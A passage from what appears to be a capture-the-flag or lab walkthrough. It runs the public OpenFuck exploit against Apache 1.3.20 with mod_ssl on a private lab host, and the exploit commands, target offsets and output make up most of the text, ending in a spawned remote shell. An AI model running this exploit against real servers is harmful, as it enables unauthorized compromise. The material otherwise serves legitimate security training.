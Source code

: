 ```

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
```

We know from Nmap that our version of Apache is `1.3.20` so lets search for that in the output.

`./OpenFuck | grep 1.3.20`

```
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	0x27 - FreeBSD (apache-1.3.20)
	0x28 - FreeBSD (apache-1.3.20)
	0x29 - FreeBSD (apache-1.3.20+2.8.4)
	0x2a - FreeBSD (apache-1.3.20_1)
	0x3a - Mandrake Linux 7.2 (apache-1.3.20-5.1mdk)
	0x3b - Mandrake Linux 7.2 (apache-1.3.20-5.2mdk)
	0x3f - Mandrake Linux 8.1 (apache-1.3.20-3)
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	0x7e - Slackware Linux 8.0 (apache-1.3.20)
	0x86 - SuSE Linux 7.3 (apache-1.3.20)
```

We'll provide the value `0x6a` and the other recommended parameters.

`./OpenFuck 0x6a 192.168.1.104 443 -c 41`

```
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 41 of 41
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
Good Bye!
```

No dice! But it looks like there are two options for this combination of operating system and version of Apache.

`./OpenFuck 0x6b 192.168.1.104 443 -c 41`

```
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 41 of 41
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
```